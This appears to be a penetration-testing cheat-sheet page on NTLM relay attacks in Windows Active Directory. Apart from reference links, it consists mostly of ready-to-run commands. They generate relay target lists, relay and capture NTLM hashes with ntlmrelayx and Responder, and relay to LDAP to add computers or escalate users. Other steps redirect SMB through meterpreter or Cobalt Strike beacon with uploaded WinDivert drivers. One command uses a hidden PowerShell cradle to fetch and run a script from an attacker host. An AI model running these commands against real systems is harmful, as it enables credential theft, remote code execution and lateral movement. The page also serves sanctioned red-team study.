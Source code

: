 # NTLM Relay

- [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
- [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
- [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
- [https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/](https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/)
- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
- [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
- [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
- [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
- [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
- [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
- [https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay)
- [https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)
- [https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay](https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay)
- [https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html](https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html)
- [https://labs.nettitude.com/blog/network-relaying-abuse-windows-domain/](https://labs.nettitude.com/blog/network-relaying-abuse-windows-domain/)
- [https://xakep.ru/2023/04/07/ntlm-relay-guide/](https://xakep.ru/2023/04/07/ntlm-relay-guide/)
- [https://xakep.ru/2023/04/11/ntlm-relay-guide-2/](https://xakep.ru/2023/04/11/ntlm-relay-guide-2/)
- [[PDF] Coercions and Relays – The First Cred is the Deepest (Gabriel Prudhomme)](https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf)

{% embed url="https://youtu.be/b0lLxLJKaRs" %}

{% file src="/.gitbook/assets/Lateral Movement using Credentials Relaying (taso_x).pdf" %}

Generate relay list with CME and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list relay.txt
$ ntlmrelayx.py -tf relay.txt -smb2support --enum-local-admins -of net-ntlmv2 --no-http-server --no-wcf-server --no-raw-server
```

Relay & catch hashes (via [multi-relay](https://www.thehacker.recipes/ad/movement/ntlm/relay#tips-and-tricks)):

```
$ smbserver.py -smb2support -port 8445 share `pwd`
$ ntlmrelayx.py -tf targets.txt -smb2support --no-http-server --no-wcf-server --no-raw-server
$ cat targets.txt
smb://10.10.13.37
smb://127.0.0.1:8445
```

{% hint style="info" %}
The easier way though is to use the combination of `-of/--output-file hashes.txt -ntlmchallenge 1122334455667788` options to save the hash with a predefined challenge to a file while relaying.
{% endhint %}

Relay NTLM2 responses obtained from Responder's proxy authentication to LDAP(S) (Responder's HTTP must be `Off`):

{% embed url="https://twitter.com/theluemmel/status/1455099572305416197" %}

```
$ ntlmrelayx.py -t ldap(s)://DC01.megacorp.local --http-port 3128 [--add-computer] / [--delegate-access [--escalate-user 'PWNED-MACHINE$']] [-socks] --no-smb-server --no-wcf-server --no-raw-server --no-dump [--no-da --no-acl --no-validate-privs]
$ sudo ./Responder.py -I eth0 -wd -P -v
```




## Relaying on Windows



### meterpreter + SharpRelay

- [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)
- [https://github.com/pkb1s/SharpRelay](https://github.com/pkb1s/SharpRelay)

Divert incoming SMB traffic from Victim to Attacker's local 445 port through an elevated meterpreter session and relay it to Target via MSF SOCKS server.

1\. Add a static route to the Target through the 1st meterpreter session:

```
meterpreter > route add 192.168.1.11/32 1
```

2\. Start MSF SOCKS server:

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

3\. Forward a reverse port 8445 on Victim to local port 445 on Attacker and start diverting incoming SMB traffic on Victim to Victim's local 8445 port:

```
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > cd C:\\Windows\\System32\\drivers
meterpreter > upload /home/snovvcrash/www/WinDivert64.sys
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/SharpRelay.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS relaysvc "C:\Windows\System32\drivers\WinDivert64.sys" 445 8445
msf post(windows/manage/execute_dotnet_assembly) > run
```

4\. Relay the diverted traffic to Target through SOCKS:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support
```

{% hint style="warning" %}
When ran once, the driver must be unloaded or the host rebooted before trying again. The fake service can be deleted with a PowerShell command:

```
PS > (sc.exe stop relaysvc) -and (sc.exe delete relaysvc)
```
{% endhint %}



### beacon + PortBender

- [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
- [https://rastamouse.me/ntlm-relaying-via-cobalt-strike/](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

Set SOCKS server & port forwarding, upload WinDivert driver and configure redirection with PortBender:

```
beacon> socks 1080
beacon> rportfwd 8445 127.0.0.1 445
beacon> cd C:\Windows\System32\drivers
beacon> upload /home/snovvcrash/www/WinDivert64.sys
beacon> PortBender redirect 445 8445
```

Relay the planet:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex(new-object net.webclient).downloadstring(\"http://10.10.13.37:8080/pwn.ps1\")"'
```

Stop PortBender:

```
beacon> jobs
beacon> jobkill <JID>
beacon> kill <PID>
```




## CVE-2019-1040

- [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```




## CVE-2025-33073

- [[PDF] Reflective Kerberos Relay Attack (RedTeam Pentesting)](https://www.redteam-pentesting.de/publications/2025-06-11-Reflective-Kerberos-Relay-Attack_RedTeam-Pentesting.pdf)
- [https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/](https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/)
- [https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025](https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
